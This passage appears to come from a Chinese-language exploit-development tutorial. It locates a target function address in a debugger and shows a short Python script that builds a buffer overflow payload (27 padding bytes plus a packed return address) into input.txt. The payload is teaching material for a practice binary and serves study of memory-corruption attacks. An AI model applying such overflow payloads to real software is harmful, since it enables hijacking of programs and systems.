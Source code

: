 程序将我们设置在`Shellcode Length`字符串的确切位置。现在，让我们向上移动，直到我们达到函数的起始地址：

![](img/00278.jpeg)

就是在地址`0x00401340`。现在，让我们设置我们的利用代码：

```
#!/usr/bin/python
 from struct import *
 buffer = ''
 buffer += 'a'*27
 buffer += pack("<Q", 0x00401340)
 f = open("input.txt", "w")
 f.write(buffer)
```

现在，运行利用代码以更新`input.txt`；然后，打开`input.txt`：

![](img/00279.jpeg)
